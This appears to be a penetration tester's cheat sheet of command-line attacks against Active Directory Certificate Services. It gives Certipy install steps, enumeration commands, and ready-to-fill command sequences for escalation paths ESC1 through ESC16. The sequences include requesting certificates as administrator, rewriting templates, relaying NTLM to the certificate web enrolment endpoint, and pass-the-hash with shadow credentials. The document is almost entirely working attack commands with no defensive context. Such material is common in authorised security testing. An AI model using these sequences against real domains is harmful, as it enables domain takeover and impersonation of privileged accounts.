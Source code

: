 # Installation
sudo apt update && sudo apt install -y python3 python3-pip
python3 -m venv certipy-venv
source certipy-venv/bin/activate
pip install certipy-ad

# ou avec pipx
pipx install -f "git+https://github.com/ly4k/Certipy.git"

# ou avec uv
uv tool install git+https://github.com/ly4k/Certipy --force

# Enumeration
certipy find -u username -p password -dc-ip ip -target dc -enabled -vulnerable -stdout
nxc ldap target -u username -p password -M adcs
nxc smb target -M enum_ca

# ESC1
addcomputer.py domain/username:password -computer-name computer_name -computer-pass computer_password
certipy req -u computer_name -p computer_password -ca ca -target domain -template template -upn administrator -dc-ip ip
certipy req -u username -p password -ca ca -target domain -template template -upn administrator -dc-ip ip
certipy req -u username -p password -ca ca -target domain -template template -upn administrator -dc-ip ip -key-size 4096
certipy auth -pfx administrator.pfx -domain domain -u username -dc-ip ip
certipy req -u username -p password -ca ca -target domain -template template -upn administrator -sid <administrator sid> -dc-ip ip

# ESC3
certipy req -u username -p password -ca ca -target domain -template template
certipy req username -p password -ca ca -target domain -template User -on-behalf-of administrator -pfx pfx_file
certipy auth -pfx administrator.pfx -dc-ip ip

# ESC4 (Certipy 4.8.2)
certipy template -u username -p password -template template -save-old -dc-ip ip
certipy req -u username -p password -dc-ip ip -ca ca -target dc -template template -upn administrator
certipy auth -pfx administrator.pfx -domain domain -u administrator -dc-ip ip

# ESC4 (Certipy 5.0.2)
certipy template -u username@domain -p password -template template -write-default-configuration -no-save
certipy req -u username@domain -p password -ca ca -template template -upn administrator@domain
certipy auth -pfx administrator.pfx -dc-ip ip

# ESC7
certipy ca -ca ca -add-officer username -u username@domain -p password -dc-ip ip -dns-tcp -ns ip
certipy ca -ca ca -enable-template SubCA -u username@domain -p password -dc-ip ip -dns-tcp -ns ip
certipy req -u username@domain -p password -ca ca -target ip -template SubCA -upn username@domain
certipy ca -ca ca -issue-request request_ID -u username@domain -p password
certipy req -u username@domain -p password -ca ca -target ip -retrieve request_ID
certipy auth -pfx pfx_file -domain domain -u username -dc-ip ip

# ESC8
ntlmrelayx.py -t http://domain/certsrv/certfnsh.asp -smb2support --adcs --template template --no-http-server --no-wcf-server --no-raw-server
coercer coerce -u username -p password -l ws_ip -t dc_ip --always-continue
certipy auth -pfx administrator.pfx

# ESC9
certipy shadow auto -u username@domain -hashes :hash -account target_username
certipy account update -u username@domain -hashes :hash -user target_username -upn administrator
certipy req -u target_username@domain -hashes :target_hash -ca ca -template template -target dc_ip
certipy account update -u username@domain -hashes :hash -user target_username -upn target_username
certipy auth -pfx administrator.pfx -domain domain

# ESC13
certipy req -u username -p password -ca ca -target domain -template template -dc-ip ip
certipy auth -pfx file.pfx -dc-ip ip

# ESC14
bloodyAD --host dc -d domain -u username -p password set object target altSecurityIdentities -v 'X509:<RFC822>target@domain'
bloodyAD --host dc -d domain -u owned_user -p password set object target mail -v target@domain
certipy account update -u owned_user@domain -p password -user username -upn target
certipy req -u username -p password -ca ca -template template -dc-ip ip
certipy account update -u owned_user -p password -user username -upn username@domain -dc-ip ip
certipy auth -pfx pfx -dc-ip ip -user target -domain domain

# ESC15 Scenario A
certipy req -u username@domain -p password -dc-ip ip -target dc -ca ca -template template -upn administrator@domain -sid <administrator sid> -application-policies 'Client Authentication'
certipy auth -pfx administrator.pfx -dc-ip ip -ldap-shell

# ESC15 Scenario B
certipy req -u username@domain -p password -dc-ip ip -ca ca -template WebServer -application-policies 'Certificate Request Agent'
certipy req -u username@domain -p password -dc-ip ip -ca ca -template User -pfx user.pfx -on-behalf-of 'DOMAIN\Administrator'
certipy auth -pfx administrator.pfx -dc-ip ip

# ESC16
certipy account -u owned_user@domain -p password -dc-ip ip -upn administrator -user username update
certipy req -u username@domain -p password -dc-ip ip -target dc -ca ca -template User -upn administrator@domain -sid <administrator sid>
certipy account -u owned_user@domain -p password -dc-ip ip -upn username -user username update
certipy auth -pfx administrator.pfx -dc-ip ip -domain domain
